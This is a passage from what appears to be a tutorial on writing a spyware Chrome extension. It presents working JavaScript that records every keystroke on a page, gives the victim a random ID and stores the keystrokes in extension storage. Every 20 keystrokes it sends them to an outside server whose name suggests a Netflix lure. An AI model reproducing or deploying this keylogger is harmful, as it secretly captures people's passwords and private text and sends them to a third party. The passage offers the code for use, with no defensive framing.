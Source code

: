 ```javascript
```

We are going to make one final addition to our spyware, a buffer. A request every keystroke is a little unnecessary considering [most people type at least 40 WPM](https://en.wikipedia.org/wiki/Words_per_minute). We already have set up a way to store things in Chrome, which will make a great place for us to store keystroke to be sent in groups. So we are going to add a simple buffer that only sends a request to our server every 20 keystrokes and store keystrokes in Chrome until 20 are queued.

```javascript
document.onkeypress = (evt) => {
  let letter = String.fromCharCode(evt.keyCode)
  let userId = null

  window.chrome.storage.local.get('userId', (items) => {
    userId = items.userId
    if (userId === undefined) {
      userId = getRandomToken()
      window.chrome.storage.local.set({userId: userId})
    }
  })

  window.chrome.storage.local.get('letterArray', (items) => {
    let letterArray = items.letterArray
    if (letterArray === undefined) {
      letterArray = ''
    }

    letterArray += letter

    if (letterArray.length > 19) {
      let xhr = new window.XMLHttpRequest()
      xhr.open('POST', 'https://netflix.719ben.com/', true)
      xhr.setRequestHeader('Content-type',
                           'application/x-www-form-urlencoded')
      xhr.send(`userId=${userId}&letters=${letterArray}`)
      // clear the array
      letterArray = ''
    }
    window.chrome.storage.local.set({letterArray: letterArray})
  })
}

const getRandomToken = () => {
  let randomPool = new Uint8Array(32)
  window.crypto.getRandomValues(randomPool)
  let hex = ''
  for (let i = 0; i < randomPool.length; ++i) {
    hex += randomPool[i].toString(16)
  }
  return hex
}
```
